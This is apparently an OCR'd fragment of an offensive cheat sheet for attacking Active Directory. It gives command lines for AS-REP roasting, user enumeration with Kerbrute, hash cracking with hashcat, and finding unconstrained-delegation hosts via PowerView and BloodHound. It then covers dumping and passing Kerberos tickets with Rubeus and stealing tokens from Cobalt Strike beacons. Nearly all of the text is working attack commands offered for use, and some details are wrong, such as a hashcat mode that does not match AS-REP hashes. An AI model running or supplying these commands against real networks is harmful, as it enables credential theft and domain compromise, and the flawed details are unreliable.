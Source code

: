 ```
proxychains GetNPUsers.py vault.io/ -usersfile users.txt -dc-ip 10.0.0.1
```

Kerbrute

```
$ kerbrute userenum --dc 10.0.0.1 -d vault.io users.txt
```

Rubeus

```
beacon> execute-assembly /opt/tools/Rubues.exe asreproast /format:hashcat
[...]
```

Crack

```
$ hashcat -a 0 -m 13100
```

#### Unconstrained Delegation

Find computers assigned unconstrained delegation

```
# CS
beacon> powershell-import /opt/tools/PowerSploit/PowerView.ps1
beacon> Get-DomainComputer -Unconstrained -Properties DnsHostName
[...]

# BloodHound
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c

# shortest path to unconstrained from owned
MATCH (u:User {owned:true}), (c:Computer {unconstraineddelegation:true}), p=shortestPath((u)-[*1..]->(c)) RETURN p
```

From the unconstrained machine

```
# Rubeus list tickets
beacon> execute-assembly /opt/tools/Rubeus.exe triage

# Rubeus dump all
beacon> execute-assembly /opt/tools/Rubeus.exe dump /nowrap

# Rubeus dump specific
beacon> execute-assembly /opt/tools/Rubeus.exe dump /luid:/0x[...] /nowrap

# new process, not pid and luid
beacon> execute-assembly /opt/tools/Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
[...]

# ptt
beacon> execute-assembly /opt/tools/Rubeus.exe ptt /luid:0x[...] /ticket:[...]

# Impersonate
beacon> steal_token <pid>
```
